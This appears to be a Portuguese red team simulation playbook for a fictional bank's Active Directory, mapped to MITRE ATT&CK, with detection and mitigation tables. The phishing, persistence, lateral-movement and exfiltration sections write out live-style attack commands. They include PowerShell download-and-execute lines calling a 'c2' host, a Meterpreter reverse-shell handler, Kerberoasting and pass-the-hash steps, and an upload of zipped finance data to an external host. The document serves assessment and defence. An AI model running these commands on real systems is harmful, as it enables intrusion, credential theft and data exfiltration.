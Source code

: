 # Red Team Simulation Playbook — Cenário Financeiro

**Empresa fictícia:** FinBank S.A.  
**Objetivo:** Simular ataque real a infraestrutura AD para avaliar resposta a ameaças e impacto potencial.  

---

## Índice
- [1. Objetivo de Negócio](#1-objetivo-de-negócio-impacto-simulado)
- [2. Acesso Inicial](#2-acesso-inicial--phishing-direcionado)
- [3. Execução e Persistência](#3-execução-e-persistência)
- [4. Movimento Lateral e Coleta](#4-movimento-lateral-e-coleta)
- [5. Exfiltração / Impacto](#5-exfiltração--impacto)
- [6. Detecção, Contenção e Mitigação](#6-detecção-contenção-e-mitigação)
- [7. Mapeamento MITRE ATT&CK](#7-mapeamento-mitre-attck)
- [8. Controles Compensatórios](#8-controles-compensatórios)
- [9. Conclusão](#9-conclusão)
- [10. Referências Externas](#10-referências-externas)

---

## 1. Objetivo de Negócio (Impacto Simulado)
- Avaliar a postura defensiva contra ataques avançados de **comprometimento de AD**.  
- Testar capacidade de detecção e resposta em incidentes de **ransomware + exfiltração**.  
- Impacto simulado:
    - Indisponibilidade de serviços financeiros online.
    - Vazamento de dados bancários e credenciais.
    - Multas regulatórias (LGPD/GDPR) e prejuízo reputacional.

---

## Fluxo do Ataque (Mermaid Diagram)
```mermaid
flowchart TD
    A[Phishing] --> B[Execução Payload PowerShell]
    B --> C[Persistência via Registry/Tarefas]
    C --> D[Enumeração AD]
    D --> E[Kerberoasting / Mov. Lateral]
    E --> F[Dump Credenciais e NTDS]
    F --> G[Exfiltração Dados]
    G --> H[Impacto: Ransomware / Vazamento]
```
---

## 2. Acesso Inicial – **Phishing Direcionado**
Vetor: e-mail com anexo malicioso ou link falso.  
Comandos simulados:
```bash
macro_pack.exe --template=word --payload="powershell -nop -w hidden -c IEX(New-Object Net.WebClient).DownloadString('http://c2/payload.ps1')" --obfuscate

msfconsole
use exploit/multi/handler
set payload windows/meterpreter/reverse_https
set LHOST 10.10.10.5
set LPORT 443
run
```

**MITRE ATT&CK:** T1566.001 (Phishing Attachment), T1059 (PowerShell).

---

## 3. Execução e Persistência
Execução in-memory + persistência via registro e tarefas agendadas:
```powershell
reg add "HKCU\Software\Microsoft\Windows\CurrentVersion\Run" /v OneDriveUpdate /t REG_SZ /d "powershell.exe -nop -w hidden -c IEX(New-Object Net.WebClient).DownloadString('http://c2/loader.ps1')" /f

schtasks /create /tn "WindowsUpdate" /tr "powershell.exe -nop -w hidden -c IEX(New-Object Net.WebClient).DownloadString('http://c2/update.ps1')" /sc minute /mo 30
```

**MITRE ATT&CK:** T1547.001 (Registry), T1053.005 (Scheduled Task).

---

## 4. Movimento Lateral e Coleta
Enumeração e exploração:
```powershell
Get-ADUser -Filter * -Properties ServicePrincipalName | select Name, ServicePrincipalName
net group "Domain Admins" /domain

Invoke-Kerberoast
GetUserSPNs.py finbank.local/user:password -dc-ip 10.10.10.10 -request

crackmapexec smb 10.10.10.10 -u admin -H <NTLMHASH>
rpcclient -U user%pass 10.10.10.10
setuserinfo2 targetuser 23 "NovaSenha123!"
```

**MITRE:** T1087.002 (Account Discovery), T1558.003 (Kerberoasting), T1021.001 (SMB).

---

## 5. Exfiltração / Impacto
Compressão e upload simulado:
```powershell
Compress-Archive -Path C:\finance\dados\* -DestinationPath C:\Users\Public\relatorio.zip
Invoke-WebRequest -Uri "https://external-storage.com/upload" -Method POST -InFile "C:\Users\Public\relatorio.zip"
cipher /e C:\finance\dados
```

**MITRE:** T1041 (Exfil over C2), T1486 (Data Encrypted for Impact).

---

## 6. Detecção, Contenção e Mitigação
| Fase            | Detecção                                        | Mitigação                                             |
|-----------------|------------------------------------------------|------------------------------------------------------|
| Acesso Inicial  | Logs EDR, sandbox                              | MFA, bloquear macros, simulações de phishing        |
| Execução        | Logs PowerShell (4104), AMSI                   | AppLocker, WDAC                                      |
| Movimento       | Eventos 4624, 4768, LDAP massivo              | Restringir ACLs, AES-Only, monitorar queries         |
| Exfiltração     | DLP, análise proxy                             | TLS inspection, bloquear uploads externos            |

---

## 7. Mapeamento MITRE ATT&CK
| Tática               | Técnicas                                      |
|----------------------|----------------------------------------------|
| Initial Access       | T1566.001 (Phishing)                        |
| Execution            | T1059 (PowerShell)                          |
| Persistence          | T1547.001 (Registry), T1053.005 (Tasks)     |
| Privilege Escalation | T1558.003 (Kerberoasting), Abuse of ACLs    |
| Lateral Movement     | T1021.001 (SMB/WinRM), Pass-the-Hash        |
| Collection           | T1087.002 (AD Enumeration)                  |
| Exfiltration         | T1041 (Exfiltration over C2)                |
| Impact               | T1486 (Data Encrypted for Impact)           |

---

## 8. Controles Compensatórios
- Proteção contra phishing (SPF/DKIM, sandbox, simulações).
- Hardening AD: AES-Only, Protected Users, segmentação de redes.
- Bloqueio de movimento lateral: restrição SMB, EDR, monitor Kerberos.
- SIEM com alertas para TTPs MITRE e honeypots para detecção de abuso.

---

## 9. Conclusão
Este exercício demonstra como um ataque direcionado pode comprometer **AD, dados sensíveis e operações críticas** de uma instituição financeira.  
**Riscos corporativos identificados:**
- Perdas financeiras diretas por indisponibilidade e fraudes.
- Vazamento de dados que impactam compliance e reputação.
- Persistência furtiva, tornando a remediação mais cara e demorada.

**Lições aprendidas:** A importância de um programa contínuo de **segurança ofensiva + monitoramento defensivo** para reduzir janela de exposição.

---

## 10. Referências Externas
- [MITRE ATT&CK Framework](https://attack.mitre.org/)
- [Microsoft Securing Active Directory](https://learn.microsoft.com/en-us/windows-server/identity/ad-ds/plan/security-best-practices)
- [NIST SP 800-61 Rev. 2 - Computer Security Incident Handling Guide](https://nvlpubs.nist.gov/nistpubs/SpecialPublications/NIST.SP.800-61r2.pdf)
- [CIS Controls v8](https://www.cisecurity.org/controls/cis-controls-list)
- [OWASP Testing Guide](https://owasp.org/www-project-web-security-testing-guide/)
- [Red Team OPSEC Guide](https://redteam.guide/)
- [SANS Incident Response Resources](https://www.sans.org/incident-response/)

---
